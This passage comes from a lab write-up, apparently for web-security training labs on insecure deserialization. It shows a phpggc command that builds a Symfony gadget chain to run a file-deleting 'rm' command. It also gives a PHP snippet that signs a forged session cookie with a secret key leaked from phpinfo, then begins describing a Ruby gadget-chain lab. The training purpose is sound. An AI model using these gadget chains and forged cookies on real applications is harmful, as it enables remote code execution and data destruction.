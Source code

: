 
### Method to solve lab


Now, generate a gadget chain with `‘rm /home/carlos/morale.txt’`.
**phpggc Symfony/RCE4 exec ‘rm /home/carlos/morale.txt’ | base64**


<img width="1562" height="348" alt="image" src="https://github.com/user-attachments/assets/882d0072-60aa-49fd-828d-5cc025a1d42e" />


Assign the secret key that you copied from the phpinfo.php file to the $secretKey variable.
```php

<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;

```

<img width="1902" height="213" alt="image" src="https://github.com/user-attachments/assets/f3ef3407-07c3-46e1-bba5-68e0e982a2d5" />
	
○ This will output a valid, signed cookie to the console.

<img width="1915" height="132" alt="image" src="https://github.com/user-attachments/assets/53ade3f3-1b32-48c2-a124-edb2177ffa87" />
	

In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.



<img width="1296" height="282" alt="image" src="https://github.com/user-attachments/assets/59dd76ae-245a-42e4-b5d8-d77c8974fbef" />




---

### LAB 7 - Exploiting Ruby deserialization using a documented gadget chain

### Lab Description

<img width="885" height="541" alt="image" src="https://github.com/user-attachments/assets/f787fd68-6d12-47a9-b5f9-97c2c5f57624" />

### Solution

Working with documented gadget chains
There may not always be a dedicated tool available for exploiting known gadget chains in the framework used by the target application. In this case, it's always worth looking online to see if there are any documented exploits that you can adapt manually. Tweaking the code may require some basic understanding of the language and framework, and you might sometimes need to serialize the object yourself, but this approach is still considerably less effort than building an exploit from scratch
